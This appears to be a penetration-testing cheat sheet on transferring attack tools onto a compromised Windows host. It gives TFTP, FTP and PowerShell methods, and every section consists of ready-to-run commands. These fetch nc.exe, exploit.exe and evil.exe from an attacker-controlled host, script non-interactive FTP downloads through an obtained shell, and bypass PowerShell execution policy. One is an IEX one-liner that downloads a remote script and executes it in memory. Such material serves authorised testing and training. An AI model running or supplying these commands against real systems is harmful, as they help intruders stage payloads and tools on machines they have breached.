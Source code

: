 # TFTP

- Windows XP and Win 2003 contain tftp client. Windows 7 do not by default 
- tfpt clients are usually non-interactive, so they could work through an obtained shell 

atftpd --daemon --port 69 /tftp
Windows> tftp -i 192.168.30.45 GET nc.exe



# FTP (pyftpdlib client on Kali)

- Ftp is generally installed on Windows machines
- To make it interactive, use -s option

## On Kali install a ftp client and set a username/password

```
python3 -m pip install pyftpdlib  
python3 -m pyftpdlib -p 21 -u root(username) -P root(pass) -d path(current dir by default)
```

## on Windows

```
ftp <attackerip>
> binary
> lcd
> get exploit.exe
```


### On Windows

```
echo open <attackerip> 21> ftp.txt
echo USER username password >> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```


# Powershell

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<attackerip>/powerup.ps1" >>wget.ps1
echo $file = "powerup.ps1" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## Powershell download a file

```
powershell "IEX(New Object Net.WebClient).downloadString('http://<targetip>/file.ps1')"
```
